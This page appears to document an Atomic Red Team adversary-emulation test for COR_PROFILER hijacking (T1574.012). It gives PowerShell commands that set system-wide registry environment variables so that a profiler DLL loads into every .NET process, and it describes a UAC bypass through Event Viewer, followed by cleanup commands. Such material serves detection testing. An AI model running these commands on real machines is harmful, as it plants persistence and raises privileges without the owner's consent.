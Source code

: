 


<br/>
<br/>

## Atomic Test #2 - System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (T1574.012x64.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** f373b482-48c8-4ce4-85ed-d40c8b3f7310





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```

